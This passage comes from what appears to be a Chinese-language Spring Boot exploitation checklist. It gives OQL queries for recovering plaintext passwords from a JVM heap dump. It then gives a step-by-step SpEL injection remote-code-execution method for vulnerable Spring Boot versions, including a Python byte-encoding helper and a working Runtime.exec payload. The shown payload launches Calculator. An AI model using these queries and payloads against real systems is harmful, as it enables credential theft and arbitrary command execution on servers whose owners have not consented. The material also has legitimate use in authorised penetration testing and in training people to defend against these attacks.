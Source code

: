 ##### 步骤三： 使用 MAT 获得 jvm heap 中的密码明文

- 参考 [文章](https://landgrey.me/blog/16/) 方法，使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 **OQL** 语句 


```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))

或

select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
```

辅助用 "**password**" 等关键词快速过滤分析，获得密码等相关敏感信息的明文。



## 二：远程代码执行

> 由于 spring boot 相关漏洞可能是多个组件漏洞组合导致的，所以有些漏洞名字起的不太正规，以能区分为准



### 0x01：whitelabel error page SpEL RCE

#### 利用条件：

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名



#### 利用方法：

##### 步骤一：找到一个正常传参处

比如发现访问  `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。



##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 `open -a Calculator` 命令

```java
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```
